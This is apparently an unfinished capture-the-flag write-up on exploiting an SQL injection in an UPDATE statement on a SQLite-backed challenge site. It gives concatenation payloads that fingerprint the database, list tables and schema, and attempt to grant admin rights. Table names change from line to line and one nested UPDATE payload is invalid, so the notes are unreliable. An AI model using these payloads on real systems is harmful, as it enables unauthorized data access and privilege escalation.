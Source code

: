```yaml
---
created: 2024-06-09T16:20
updated: 2024-06-23T08:16
---
```


> I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1!
> PLEASE NOTE: What you do should, in theory, not affect other solvers. Please let us know if this is not the case.

---

SQL Injection huh, and with `UPDATE`.

Make a guess for the statement.

```sql
UPDATE table SET name="<input>" WHERE id='1'
```

With some [version checking](../../sql.md)...

```sql
UPDATE table SET name=""||(SELECT sqlite_version())||"" WHERE id='1'
```

We can determine that it is sqlite.

```sql
UPDATE table SET name=""||(SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users'))||""
```

```
" || (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') || "

## users,roles_e25832119caec3e7

" || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='roles_aa673201a75d3012') || "

## CREATE TABLE roles_aa673201a75d3012 (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE).

" || (SELECT id||","||admin FROM roles_2d69a85c4fb75907 WHERE id='1') || "

## 1,0

" || (UPDATE roles_e25832119caec3e7 SET admin=1) || "


", admin="1"
```

Welp, idk
